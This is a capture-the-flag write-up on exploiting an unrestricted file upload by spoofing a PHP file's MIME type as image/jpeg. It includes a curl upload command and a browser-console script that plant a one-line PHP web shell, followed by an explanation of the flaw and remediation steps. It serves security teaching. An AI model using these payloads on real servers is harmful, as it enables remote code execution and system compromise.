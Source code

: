 # Breach: Arbitrary File Upload via MIME Type Spoofing

## Discovery & Exploit

The site includes a file upload form which claims to only accept `.jpg` images.

We attempted uploading various file types, and eventually tried uploading a `.php` file while spoofing the MIME type as `image/jpeg`.

Using `curl`, we submitted the following request:

```
curl -F "uploaded=@shell.php;type=image/jpeg" -F "Upload=Upload" http://{IP}/?page=upload
```

The server did not perform backend validation of file contents or extension, and the file was successfully uploaded and interpreted as PHP.

Upon execution of the uploaded script, the server responded with the [flag](../flag)



To simplify the process, we wrote a JavaScript snippet that replicates the upload directly from the browser console. This eliminates the need for external tools like `curl`.

> You can run the following script directly in the browser's developer console:

```javascript
const payload = `<?php system($_GET['cmd']); ?>`;
const file = new Blob([payload], { type: "image/jpeg" });
const form = new FormData();
form.append("uploaded", file, "shell.php");
form.append("Upload", "Upload");
fetch(window.location.href, {
    method: "POST",
    body: form
}).then(response => {
    return response.text();
}).then(html => {
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, "text/html");
    document.replaceChild(
        document.adoptNode(doc.documentElement),
        document.documentElement
    );
});
```

## Vulnerability Details

This is a classic case of **unrestricted file upload**, where the server:

- Accepts a file based on MIME type or extension alone (client-side enforced)
- Fails to inspect or validate the file contents on the backend
- Stores and executes files in a web-accessible location

Combined, these flaws allow an attacker to upload a **malicious PHP script** under the guise of a `.jpg`, leading to **remote code execution** and full system compromise.

References:

- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- https://portswigger.net/web-security/file-upload

## Remediation

1. Always validate file content types on the server side.
2. Never trust the MIME type or file extension provided by the client.
3. Store uploads outside of the web root when possible.
4. Rename uploaded files to prevent code execution.
5. Disallow executable file types entirely (e.g., `.php`, `.exe`, `.js`, `.jsp`).
6. Set appropriate Content-Disposition headers and file permissions.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach13_PasswordOnlyAuthBypass/Ressources/writeup.md">← Previous: Breach13</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right">Finish</td>
  </tr>
</table>
